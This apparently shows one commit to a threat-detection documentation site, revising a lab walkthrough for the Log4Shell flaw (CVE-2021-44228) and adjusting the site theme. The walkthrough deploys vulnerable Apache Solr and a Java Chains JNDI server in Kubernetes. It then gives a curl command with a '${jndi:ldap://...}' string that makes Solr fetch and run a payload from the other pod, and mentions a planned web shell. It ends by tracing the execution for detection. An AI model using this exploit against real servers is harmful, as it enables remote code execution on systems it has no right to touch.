

Before and after one commit to danielpacak/awesome-threat-detection, an MkDocs documentation site: the page built from docs/vulnerabilities/cve-2021-44228.md, in a window 1280 px wide and 1400 px high, scrolled down 440 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add DVWA

````diff
--- a/docs/vulnerabilities/cve-2021-44228.md
+++ b/docs/vulnerabilities/cve-2021-44228.md
@@ -1,16 +1,37 @@
-# Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)
+# Apache Log4j2 Lookup Feature JNDI Injection (CVE-2021-44228)
 
 ## Overview
 
 ``` mermaid
 flowchart TD
-  javachains["Pod: Java Chains 10.244.0.76:8011 10.244.0.76:50389"]
-  solr["Pod: Apache Solr v8.11.0 10.244.0.77:8983"]
+  javachains["Pod: Java Chains 10.244.0.82:8011 10.244.0.82:50389"]
+  solr["Pod: Apache Solr v8.11.0 10.244.0.80:8983"]
   curl["curl"]
 
-  solr -- LDAP --> javachains
-  curl -- "curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.76:50389/b37308}'" --> solr
+  solr -- "LDAP (Download Payload)" --> javachains
+  curl -- "curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.82:50389/b37308}'" --> solr
 ```
+
+## [WIP] Create and Start Lima VM
+
+TODO
+
+## Deploy Apache Solr
+
+Deploy Apache Solr 8.11.0 as a Kubernetes pod:
+
+```
+k apply -f code/vulnerabilities/cve-2021-44228/all.yaml
+```
+
+Start listening on port `8983` locally, forwarding data to/from port `8983` in the
+`solr` pod.
+
+```
+k port-forward -n solr pods/solr 8983:8983
+```
+
+Navigate to Java Chains Web UI at <http://localhost:8983>.
 
 ## Deploy Java Chains
 
@@ -30,46 +51,50 @@
 Navigate to Java Chains Web UI at <http://localhost:8011> and log in as `admin:admin`.
 
 Go to [JNDI / JNDI Control](http://localhost:8011/#/JNDI/jndi-chains-control) page, set
-the IP Address (Reverse IP) to 10.244.0.76 and click the Start button to launch
-the embedded JNDI server. The LDAP URL should be `ldap://10.244.0.76:50389/x`.
+the IP Address (Reverse IP) to 10.244.0.82 and click the Start button to launch
+the embedded JNDI server. The LDAP URL should be `ldap://10.244.0.82:50389/x`.
 
 ![](./images/javachains-jndi-control.png)
 
-## Create JNDIBasicPayload to Execute Command (Exploit)
+## Create JNDIBasicPayload to Execute Commands
+
+### Write to the /tmp Directory
 
 Go to [JNDI / JNDIBasicPayload](http://localhost:8011/#/JNDI/JNDIBasicPayload) page
 and generate payload to execute the `touch /tmp/passwd` command.
 
 ![](./images/javachains-jndi-basic-payload-execute-command.png)
 
-Copy the payload `ldap://10.244.0.76:50389/8d0bdd` and use it in the following curl command:
+Copy the payload `ldap://10.244.0.82:50389/d4db3d` and use it in the following curl command:
 
 ```
-curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.76:50389/8d0bdd}'
+curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.82:50389/d4db3d}'
 ```
 
-[//]: # (TODO Open a web shell?)
+Alternatively, open <http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.82:50389/d4db3d}>
+in a web browser.
 
-## Deploy Apache Solr 8.11.0
+### [WIP] Open a Web Shell
 
-Deploy Apache Solr as a Kubernetes pod:
+TODO
 
-```
-k apply -f code/vulnerabilities/cve-2021-44228/all.yaml
-```
-
-Start listening on port `8983` locally, forwarding data to/from port `8983` in the
-`solr` pod.
-
-```
-k port-forward -n solr pods/solr 8983:8983
-```
+## Use Inspektor Gadget to Verify that the Payload was Executed
 
 ```
 k gadget run ghcr.io/inspektor-gadget/gadget/trace_exec:latest \
   --namespace solr \
   --output columns \
   --fields timestamp,proc.pid,proc.parent.pid,proc.comm,args,k8s.podName,k8s.namespace
+```
+
+## Cleanup
+
+```
+k delete -f code/vulnerabilities/cve-2021-44228/all.yaml
+```
+
+```
+k delete -f code/javachains/javachains.kubernetes.yaml
 ```
 
 ## Further Reading
@@ -79,3 +104,4 @@
 * <https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/>
 * <https://java-chains.vulhub.org/docs/module/jndi#jndibasicpayload>
 * <https://github.com/apache/solr>
+* <https://github.com/christophetd/log4shell-vulnerable-app>
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -5,8 +5,29 @@
 repo_url: https://github.com/danielpacak/awesome-threat-detection
 theme:
   name: material
+  palette:
+    # Palette toggle for light mode
+    - scheme: default
+      toggle:
+        icon: material/toggle-switch
+        name: Switch to dark mode
+    # Palette toggle for dark mode
+    - scheme: slate
+      toggle:
+        icon: material/toggle-switch-off-outline
+        name: Switch to light mode
   features:
     - content.code.copy
+    - content.code.annotate
+    # When enabled, all content tabs across the whole documentation site will be
+    # linked and switch to the same label when the user clicks on a tab.
+    - content.tabs.link
+    # Enable navigation integration for the TOC to always render as part of the
+    # navigation sidebar on the left. Effectively leave more space for the
+    # content, i.e. code snippets, diagrams, images, etc.
+    - toc.integrate
+    # Better (faster) tooltips, replacing the browser's rendering logic.
+    - content.tooltips
 markdown_extensions:
   - pymdownx.highlight:
       anchor_linenums: true
````
Also changed, not shown: docs/bookshelf.md (+2 -0 lines), docs/java.md (added, +16 -0 lines), docs/vulnerabilities/dvwa.md (added, +54 -0 lines), 2 other files.
